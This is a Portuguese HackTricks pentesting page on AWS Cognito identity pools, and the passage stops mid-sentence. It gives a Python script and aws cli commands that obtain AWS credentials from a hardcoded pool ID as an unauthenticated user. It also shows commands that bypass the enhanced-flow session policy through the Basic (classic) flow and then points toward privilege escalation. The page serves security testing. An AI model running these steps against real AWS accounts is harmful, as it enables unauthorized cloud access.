 # Pools de Identidade Cognito

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegrama**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

Com um pool de identidade, seus usuários podem **obter credenciais temporárias da AWS para acessar serviços da AWS**, como Amazon S3 e DynamoDB. Os pools de identidade suportam usuários convidados anônimos, bem como os seguintes provedores de identidade que você pode usar para autenticar usuários para pools de identidade:

* Pools de usuários da Amazon Cognito
* Login social com Facebook, Google, Login com Amazon e Entrar com a Apple
* Provedores de identidade OpenID Connect (OIDC)
* Provedores de identidade SAML
* Identidades autenticadas pelo desenvolvedor

### Cognito Sync

Para gerar sessões de pool de identidade, você primeiro precisa **gerar um ID de identidade**. Este ID de identidade é a **identificação da sessão desse usuário**. Essas identificações podem ter até 20 conjuntos de dados que podem armazenar até 1 MB de pares chave-valor.

Isso é **útil para manter informações de um usuário** (que sempre usará o mesmo ID de identidade).

Além disso, o serviço **cognito-sync** é o serviço que permite **gerenciar e sincronizar essas informações** (nos conjuntos de dados, enviando informações em fluxos e mensagens SNS...).

## Acessando Funções IAM

### Não autenticado

A única coisa que um atacante precisa saber para **obter credenciais da AWS** em um aplicativo Cognito como usuário não autenticado é o **ID do pool de identidade**, e esse **ID deve ser codificado** no aplicativo web / móvel para que ele o use. Um ID se parece com isso: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (não é possível forçar a força bruta).

{% hint style="success" %}
O **papel IAM Cognito não autenticado criado via é chamado** por padrão `Cognito_<nome do pool de identidade>Unauth_Role`
{% endhint %}

Se você encontrar um ID de pool de identidade codificado e permitir usuários não autenticados, poderá obter credenciais da AWS com:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

Ou você pode usar os seguintes **comandos aws cli**:

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```

{% hint style="warning" %}
Observe que, por padrão, um usuário cognitivo não autenticado **NÃO PODE ter nenhuma permissão, mesmo que tenha sido atribuído por meio de uma política**. Verifique a seção a seguir.
{% endhint %}

### Fluxo de autenticação aprimorado vs básico

A seção anterior seguiu o **fluxo de autenticação aprimorado padrão**. Este fluxo define uma política de sessão **restritiva** [**política de sessão**](../../aws-basic-information/#session-policies) para a sessão de função IAM gerada. Essa política permitirá apenas que a sessão [**use os serviços desta lista**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (mesmo que a função tenha acesso a outros serviços).

No entanto, há uma maneira de contornar isso, se o **pool de identidade tiver o "Fluxo Básico (Clássico)" habilitado**, o usuário poderá obter uma sessão usando esse fluxo que **não terá essa política de sessão restritiva**.

{% code overflow="wrap" %}
```bash
# Obter ID de autenticação
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Obter token de login
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use o token de login para obter credenciais de sessão IAM
## Se você não sabe o role_arn, use o fluxo aprimorado anterior para obtê-lo
aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Se você receber este **erro**, é porque o **fluxo básico não está habilitado (padrão)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Tendo um conjunto de credenciais IAM, você deve verificar [quais acessos você tem](../../#whoami) e tentar [escalar privilégios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Lembre-se de que os **usuários autenticados** provavelmente receberão **